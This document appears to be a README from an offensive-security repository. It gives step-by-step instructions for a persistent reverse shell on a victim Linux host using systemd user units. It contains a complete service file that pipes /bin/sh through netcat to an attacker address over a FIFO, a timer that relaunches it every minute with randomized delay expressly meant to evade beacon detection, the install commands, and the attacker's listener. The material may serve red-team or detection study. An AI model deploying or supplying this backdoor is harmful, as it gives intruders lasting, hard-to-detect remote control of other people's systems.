 # Scheduled Reverse Shell

## Description

This sequence of commands sets up a scheduled task, much like the better-known `cron` jobs, to execute
a reverse shell using a FIFO pipe located at `/tmp/backpipe`.

The service file (`revshell.service`) uses:

* The `Environment` directive to set up the remote host and port to connect to
* The `ExecStartPre` directive to check fo the FIFO pipe and create it if it does not exist
* The `ExecStart` directive to execute the backdoor sequence (more info on how it works located in the linked blog below)

The timer file (`revshell.timer`) uses:

* The `AccuracySec` directive to align service execution with the wider system
* The `OnCalendar` directive to execute the specified unit at the start of every minute
* The `Unit` directive to identify the unit file to execute when the timer is triggered
* The `RandomizedDelaySec` to avoid simple beacon detections
* The `Persistent` directive to reactivate this timer immediately if it missed previous activations

## Additional Notes

* The reverse shell service does not end when the shell drops; systemd still considers the service "activated"
  after the main (`ExecStart`) process dies
* The `.timer` file ensures the backdoor gets re-run if the shell drops
* systemd only runs the next scheduled task if the previous task has ended
  * Avoids unnecessary logs
* Tasks will automatically run again if the backdoor ends after the next task was supposed to run
  * systemd will not wait until the timer gets scheduled again
  * e.g. 4.5 minutes after initial run on a per-minute timer

    ```txt
    [1]       [2]        [3]        [4]          [5]
    run-------skip-------skip-------skip-die-run-skip
    ```

* The `.timer` file will randomize unit execution a bit based on the `AccuracySec` and `RandomizedDelaySec` directives
  * `AccuracySec` is a measure of how accurate systemd must be when executing the associated unit.
    This is done so systemd can attempt to reduce executions that fall within the same time window.
  * `RandomizedDelaySec` randomizes the exact second at which systemd will execute the unit.
    This is done so systemd can minimize the chance many units fire at once and possibly consume too many resources.
    It's also really nice for avoiding beacon detections :)
  * The timer below will first choose a time within the `RandomizedDelaySec`, and then look for a time within `AccuracySec`
    * In reality, this unit will execute sometime between `*:56 - *:05` seconds

## Step by Step

1. Stand up listener on attacker server

```sh
$ nc -nlvp 4444
listening on [any] 4444 ...
```

2. Generate a service file to create the backdoor on the victim

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell
Documentation=https://github.com/infosec-intern/sneaky-systemd-shit

[Service]
; https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
Type=simple
Environment=RHOST="10.10.10.10" RPORT="4444"
ExecStartPre=/bin/sh -c "find /tmp/backpipe || mknod --mode=0666 /tmp/backpipe p"
ExecStart=/bin/sh -c "/bin/sh 0</tmp/backpipe | /bin/nc ${RHOST} ${RPORT} 1>/tmp/backpipe"
```

3. Generate a timer file to execute the backdoor at regular intervals (every minute in our case)

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.timer.html
[Timer]
AccuracySec=1s
OnCalendar=*-*-* *:*:00
Unit=revshell.service
RandomizedDelaySec=4s
Persistent=true
```

4. Install into the systemd user folder on the victim and reload the units

```sh
$ mkdir -p ~/.config/systemd/user/
$ ln -s `pwd`/revshell.service ~/.config/systemd/user/
$ ln -s `pwd`/revshell.timer ~/.config/systemd/user/
$ systemctl --user daemon-reload
```

5. Start the scheduled task

```sh
$ systemctl --user start revshell.timer
```

6. Wait for the shell!

```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [${attacker}] from (UNKNOWN) [${victim}]
```
